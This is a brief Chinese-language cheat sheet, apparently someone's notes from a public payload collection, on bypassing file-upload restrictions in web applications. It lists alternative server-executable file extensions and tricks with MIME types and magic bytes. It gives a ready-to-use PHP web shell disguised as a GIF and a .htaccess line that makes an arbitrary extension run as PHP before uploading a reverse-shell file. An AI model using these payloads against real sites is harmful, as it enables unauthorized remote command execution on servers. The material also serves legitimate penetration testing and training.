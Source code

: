 w
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files

先判断是白名单还是黑名单
黑名单可以尝试

| Type       | Extension                                     |
| ---------- | --------------------------------------------- |
| php        | phtml, .php, .php3, .php4, .php5, .inc , .pHP |
| asp        | asp, .aspx                                    |
| perl       | .pl, .pm, .cgi, .lib                          |
| jsp        | .jsp, .jspx, .jsw, .jsv, and .jspf            |
| Coldfusion | .cfm, .cfml, .cfc, .dbm                       |

**需要注意的点：**
 **[+]** 一句话木马可以放在数据中间
- 修改 Content-Type （mimetype）
- Magic 字节 （Hex header） 
- 白名单/黑名单

**允许 GIF 上传：**
backdoor.php.gif : 
```
GIF89a
<?php
system($_GET[0]);
phpinfo();
?>
```
抓包后修改，可以去掉 .gif 放包


**允许 PNG 上传：**
getcmd.php.png


##### 如果所有上传都绕不过，那就尝试上传配置文件:
- PHP server, take a look at the [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) trick to execute code.  
    PHP 服务器，看看 .htaccess 执行代码的技巧。
- ASP server, take a look at the [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config) trick to execute code.  
    ASP 服务器，请看一下 web.config 执行代码的技巧。
- uWSGI server, take a look at the [uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini) trick to execute code.  
    uWSGI 服务器，看看执行代码 uwsgi.ini 技巧。


- .**htaccess**
```
AddType application/x-httpd-php .rce
```
然后上传 rev.rce